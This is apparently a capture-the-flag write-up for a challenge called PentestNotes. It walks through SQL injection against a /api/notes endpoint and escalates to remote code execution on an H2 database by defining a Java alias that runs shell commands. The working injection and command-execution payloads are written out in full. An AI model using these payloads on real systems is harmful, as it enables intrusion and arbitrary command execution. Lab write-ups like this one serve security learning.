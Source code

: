 ## PentestNotes 

```
before checking the solution, try this spoiler first
```

1. Try to look for the vulnerabilities
2. check the code and the error messages, it's been helpful
3. find a vulnerable page
4. try to identify the vulnerable parameter
5. locate an RCE.


### Solution

locate the vulnerable page /api/notes with the POST request
try an SQLi
concat() and $ are filtered.

1. identify the vulnerability.
```sql
SQL Injection' Union select '6'||'1',''||'',''||'';  -- -
```
We have an output so it's not blind sql, good sign.

2. it's using h2 database with spring framework, we create create an alias to execute java code.

```sql
SQL'||' Injection' Union select '6'||'1',''||'',''||''; CREATE ALIAS shell as '
String e(String cmd) throws java.io.IOException, InterruptedException {
        java.lang.Runtime rt = java.lang.Runtime.getRuntime();
        Process p = rt.exec(cmd);
        p.waitFor();
        java.io.InputStream inputStream = p.getInputStream();
        StringBuilder output = new StringBuilder();
        int ch;
        while ((ch = inputStream.read()) != -1) {
            output.append((char) ch);
        }
        inputStream.close();
        return output.toString();
    }' ;  -- -
```
and then read the output of the function

```sql
SQL Injection' Union select '6'||'1',''||'',''||shell('cat /');  -- -
```
